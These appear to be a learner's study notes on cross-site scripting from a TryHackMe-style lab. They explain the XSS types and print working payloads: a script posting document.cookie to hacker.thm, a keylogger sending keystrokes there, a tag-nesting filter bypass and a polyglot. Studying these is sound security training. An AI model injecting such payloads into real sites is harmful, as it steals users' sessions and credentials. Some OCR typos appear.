 Session Stealing is typically the exploitation of cookies to retrieve login tokens. The supplied XSS
injection takes a target cookie, encodes it into base64 to ensure successful transmission and posts it to a site
controlled by the attacker. From this point the attacker can take control of the target machine and log in as a user.
<script>fetch(‘https://hacker.thm/steal?cookie=’ + btoa(document.cookie));</script>

Key Loggers collect data about what is typed on a webpage, forwarding this info to a website that the
attacker controls. This collects every keystroke, easily revealing log-in credentials for unaware users.
<script>document.onkeypress = function(e) { fetch(‘https://hacker.thm/log?key=’ + btoa(e.key) );}</script>
Business Logic is a more specific payload that exploits a particular network resource or JS function.
Reflected XSS is when there is user input included in the webpage source without being validated. An
example of this attack is getting a user to click on a link to a malicious site that can collect their data and return it to
the attacker.
Stored XSS is when the malicious code is stored in a database. The example given would be if a website
database used to store user comments does not validate the posted comments. This means that a user could submit
a comment containing malicious javascript, which will be saved to the server and possibly spread to other users.
Document Object Model (DOM) Based XSS is when the JavaScript executable code happens within a
browser without loading new pages or new data submissions. Execution occurs upon user interaction or input. This
type of attack is difficult to detect unless you have deeper understanding of JavaScript as a whole.
Blind XSS is most similar to Stored XSS, except you are unable to test the payload against yourself and you
are unable to see it actively working. This type of attack can reveal employee portals, cookies, and even portal page
contents. You must ensure your payload has a callback to know if it is working, typically in the fform of an HTTP
request. XSShunter is a popular tool for these types of attacks.

A key thing to note about these injections is that you are troubleshooting how to bypass the javascript by
using the pagesource to analyze your input. When you see how the page receives data, you can figure out how to
end the JS statement using appropriate JS mechanisms like commenting, semi-colon, quotes, and inequality signs.
There may also be filters inplemented that block out specific hazard words like, ‘script’ which are commongly used
in XSS attacks. Writing your code in the format of sscriptcript will let the filter remove script where it cannot see
the second ‘script’ lying in wait.
A Polyglot is a text string that escapes tags, bypass filters, and attributes as a single script. The example
polyglot given for this exercise is below:
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM')
)//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
